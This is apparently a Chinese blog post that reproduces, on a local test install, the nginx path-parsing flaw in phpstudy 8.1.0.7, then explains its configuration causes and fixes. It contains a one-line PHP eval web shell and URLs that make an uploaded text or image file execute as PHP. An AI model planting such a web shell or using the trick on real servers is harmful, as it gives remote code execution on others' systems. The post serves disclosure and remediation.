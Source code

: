 ```yaml
---
title: phpstudy_nginx解析漏洞验证
tags:
  - phpstudy
categories:
  - 安全
copyright: true
permalink: phpstudy_nginx解析漏洞验证
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-09-03 21:09:05
---
```


## 一、环境搭建

去官网下载phpstudy版本8.1.0.7，安装过程中不能使用中文作为目录，然后安装nginx与php，运行网站。

## 二、验证漏洞

上传文件 info.txt到www目录，保证能够解析
```
<?php 
@eval($_GET["pass"]);
?>
```
访问127.0.0.1/info.txt看到文件存在
访问127.0.0.1/info.txt/.php?pass=phpinfo(); 看到info信息
访问127.0.0.1/info.txt/.php 连接菜刀
或上传冰蝎码.
访问127.0.0.1/shell.png/.php?pass=phpinfo();

## 三、原理分析

这个漏洞是nginx的配置，windows存在这个问题，linux不存在这个问题

1.由于nginx.conf的如下配置导致nginx把以'.php'结尾的文件交给fastcgi处理,为此可以构造http://ip/uploadfiles/test.png/.php (url结尾不一定是'.php',任何服务器端不存在的php文件均可,比如'a.php'),其中test.png是我们上传的包含PHP代码的照片文件。

2、但是fastcgi在处理'.php'文件时发现文件并不存在,这时php.ini配置文件中cgi.fix_pathinfo=1 发挥作用,这项配置用于修复路径,如果当前路径不存在则采用上层路径。为此这里交由fastcgi处理的文件就变成了'/test.png’。

3、最重要的一点是php-fpm.conf中的security.limit_extensions配置项限制了fastcgi解析文件的类型(即指定什么类型的文件当做代码解析),此项设置为空的时候才允许fastcgi将'.png'等文件当做代码解析。
在nginx默认配置中，有一个解析php的路由

```
       #location ~ \.php$ {
        #       include snippets/fastcgi-php.conf;
        #
        #       # With php7.0-cgi alone:
        #       fastcgi_pass 127.0.0.1:9000;
        #       # With php7.0-fpm:
        #       fastcgi_pass unix:/run/php/php7.0-fpm.sock;
        #}
```
## 四、修复
1、将php.ini文件中的cgi.fix_pathinfo的值设置为0,这样php再解析1.php/1.jpg这样的目录时,只要1.jpg不存在就会显示404页面


2、php-fpm.conf中的security.limit_extensions后面的值设置为.php
## 参考
http://wechat.doonsec.com/article/?id=1632d9b3b7f94ead41c575e12b1a3aff
